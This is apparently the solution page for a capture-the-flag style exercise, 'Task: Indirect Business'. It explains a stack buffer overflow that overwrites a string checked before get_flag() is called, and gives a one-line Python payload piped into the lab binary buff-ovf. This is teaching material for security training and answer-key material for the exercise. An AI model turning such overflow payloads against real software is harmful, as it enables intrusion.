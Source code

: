 ```yaml
---
nav_order: 1
parent: 'Task: Indirect Business'
---
```


# Solution

Use the buffer overflow to overwrite a string on the stack.
This is going to be copied to a global variable that is checked before calling the `get_flag()` function.

```sh
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*10 + b"Bye")' | ./buff-ovf
```
